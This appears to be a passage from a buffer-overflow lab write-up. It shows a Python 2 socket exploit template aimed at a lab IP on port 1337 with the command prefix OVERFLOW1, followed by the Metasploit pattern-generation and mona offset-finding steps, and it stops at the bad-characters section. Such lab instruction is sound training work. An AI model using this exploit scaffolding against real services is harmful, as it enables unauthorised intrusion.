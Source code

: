 `exploit.py`:
```python
#!/usr/bin/python2

import socket

ip = "10.10.85.204"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Generating pattern:

```bash
$ msf-pattern_create -l 2000 
Aa0Aa1Aa2...                 <- Insert into the "payload" variable
```

Get the offset:
```bash
!mona findmsp -distance 2000
```

![](/images/bof1.png)

```bash
EIP contains normal pattern : ... (offset 1978)    <- Insert into the "offset" variable.

Set the "payload" variable to an empty string and set the "retn" variable to "BBBB".

Run again to verify that EIP has been overridden with "BBBB".
```

## Finding Bad Characters
